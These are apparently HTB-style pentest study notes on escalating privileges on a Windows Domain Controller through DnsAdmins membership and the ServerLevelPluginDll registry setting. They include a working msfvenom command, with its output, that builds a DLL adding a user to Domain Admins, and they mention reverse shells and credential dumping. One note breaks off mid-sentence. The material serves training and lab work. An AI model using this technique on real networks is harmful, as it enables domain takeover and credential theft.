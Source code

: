 Members of the [DnsAdmins](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/active-directory-security-groups#dnsadmins) group have access to DNS information on the network. The Windows DNS service supports custom plugins and can call functions from them to resolve name queries that are not in the scope of any locally hosted DNS zones. The DNS service runs as `NT AUTHORITY\SYSTEM`, so membership in this group could potentially be leveraged to escalate privileges on a Domain Controller or in a situation where a separate server is acting as the DNS server for the domain. It is possible to use the built-in [dnscmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) utility to specify the path of the plugin DLL. As detailed in this excellent [post](https://adsecurity.org/?p=4064), the following attack can be performed when DNS is run on a Domain Controller (which is very common):

- DNS management is performed over RPC
- [ServerLevelPluginDll](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dnsp/c9d38538-8827-44e6-aa5e-022a016ed723) allows us to load a custom DLL with zero verification of the DLL's path. This can be done with the `dnscmd` tool from the command line
- When a member of the `DnsAdmins` group runs the `dnscmd` command below, the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll` registry key is populated
- When the DNS service is restarted, the DLL in this path will be loaded (i.e., a network share that the Domain Controller's machine account can access)
- An attacker can load a custom DLL to obtain a reverse shell or even load a tool such as Mimikatz as a DLL to dump credentials.

Let's step through the attack.

---

## Leveraging DnsAdmins Access


> [!NOTE] Title
> I learned from the [**_IppSec video_**](https://www.youtube.com/watch?v=8KJebvmd1Fk) that the problem with generating the DLL with **_Msfvenom_** is that it crashes the DNS service after it restarts; that’s because the reverse shell created with **_Msfvenom_** does not fork as a separate process for the elevated shell.
> So we need to create our own DLL based on the original DLL. And add reverse shell function that work as seperate thread. So DNS won't 




---
## HTB
#### Generating Malicious DLL

We can generate a malicious DLL to add a user to the `domain admins` group using `msfvenom`.

```shell-session
slomkm@htb[/htb]$ msfvenom -p windows/x64/exec cmd='net group "domain admins" netadm /add /domain' -f dll -o adduser.dll

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 313 bytes
Final size of dll file: 5120 bytes
Saved as: adduser.dll
```
